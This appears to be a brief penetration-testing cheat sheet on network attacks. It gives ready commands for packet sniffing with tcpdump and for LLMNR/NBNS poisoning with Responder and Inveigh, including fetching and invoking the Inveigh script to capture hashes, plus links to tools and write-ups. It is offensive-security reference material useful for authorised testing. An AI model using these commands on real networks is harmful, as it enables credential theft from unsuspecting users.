 



# Network attacks




## Sniff Traffic



### tcpdump

While connected via SSH:

```
$ tcpdump -i eth0 -w dump.pcap -s0 'not tcp port 22' &
```



### Wireshark

* [research.801labs.org/cracking-an-ntlmv2-hash/](https://research.801labs.org/cracking-an-ntlmv2-hash/)




## LLMNR/NBNS Poisoning



### Responder

* [github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
* [github.com/lgandx/Responder](https://github.com/lgandx/Responder)
* [www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [markclayton.github.io/where-are-my-hashes-responder-observations.html](https://markclayton.github.io/where-are-my-hashes-responder-observations.html)

```
$ git clone https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrdv
```



### Inveigh

* [github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

```
$ curl -L https://github.com/Kevin-Robertson/Inveigh/raw/master/Inveigh.ps1 > inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.13.37'] -ConsoleOutput Y -FileOutput Y –NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```
